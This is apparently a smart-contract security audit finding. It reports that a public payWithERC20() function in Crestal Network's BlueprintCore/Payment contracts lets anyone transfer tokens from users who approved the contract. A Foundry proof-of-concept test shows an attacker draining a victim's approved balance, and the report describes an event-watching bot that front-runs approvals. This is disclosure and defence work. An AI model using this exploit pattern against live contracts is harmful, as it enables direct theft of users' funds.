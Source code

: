Old Latte Bull

High

# Direct theft of funds using payWithERC20()

### Summary

The function `payWithERC20()` is public and anyone can call it directly, and users need to approve the blueprint to transfer tokens to create agents or to use `userTopUp` , this allows direct theft of funds from users who approved the blueprint, by calling `payWithERC20` directly.

### Root Cause

- The contract `BlueprintCore.sol` [inherits](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L8) from `Payment.sol`.
- `Payment.sol` has the function [`payWithERC20()`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32) which is public and callable by anyone.
- Users need to approve the blueprint to transfer tokens ( USDC or CRESTAL ) to be able to use [`userTopUp()`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L756) , [`updateWorkerDeploymentConfig`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L650) , or to [create agents](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L464).
- Users who approved will be subject to direct theft, as any malicious user can call `payWithERC20()` to transfer funds directly from the victims who approved to himself ( `msg.sender` in `token.safeTransferFrom(fromAddress, toAddress, amount)` will be the blueprint address, so theft is possible ).

### Internal Pre-conditions

Users need to approve the blueprint contract, which is **required** to perform any of the actions stated above so the likelihood is **very high**.

### External Pre-conditions

N/A

### Attack Path

1. User wants to topUp or create an agent, so they have to approve the blueprint contract to transfer tokens.
2. After approval , the event `Approval` will be emitted.
3. Attacker ( which could be a bot ) is listening to this event, so before the user performs the action, the attacker calls `payWithERC20()` directly, stealing funds from the user.

### Impact

- Direct theft of funds to users.
- It could be automated using a bot, so that any user approves gets his funds stolen, this will efficiently lead to sabotaging creating agents and toUps, and significant loss to the protocol and its users. 

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract AuditTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public workerAddress2; // Second worker (attacker)
    address public dummyAddress;
    address public user = address(0x1338);
    address public attacker = address(0x1337);
    bytes public x;

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // Mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // Set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.setCreateAgentTokenCost(address(mockToken), 10e18);
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        workerAddress2 = makeAddr("worker2"); // Attacker worker
        dummyAddress = address(0);
    }

    function test_StealUserFunds() public {

        // 1 - User approves the blueprint contract to spend tokens (this is required to use the 
        // contract functionalities so it's super likely)
        vm.startPrank(user);
        deal(address(mockToken), user, 1000e18);
        mockToken.approve(address(blueprint), 1000e18);
        vm.stopPrank();
        console.log("User balance before the attack: ", mockToken.balanceOf(user));
        console.log("Attacker balance before the attack: ", mockToken.balanceOf(attacker));
        
        // 2 - Attacker listening to the `Approval` event, steals the user's funds
        vm.startPrank(attacker);
        blueprint.payWithERC20(address(mockToken), 1000e18, user, attacker);
        vm.stopPrank();
        console.log("User balance after  the attack: ", mockToken.balanceOf(user));
        console.log("Attacker balance after the attack: ", mockToken.balanceOf(attacker));

        // 3 - Victim tries to call topUp(), but can't, since his funds have been drained
        vm.startPrank(user);
        vm.expectRevert("ERC20: transfer amount exceeds balance");
        blueprint.userTopUp(address(mockToken), 10e18);
        vm.stopPrank();
    }
}
```

### Mitigation

Make the `payWithERC20` function internal.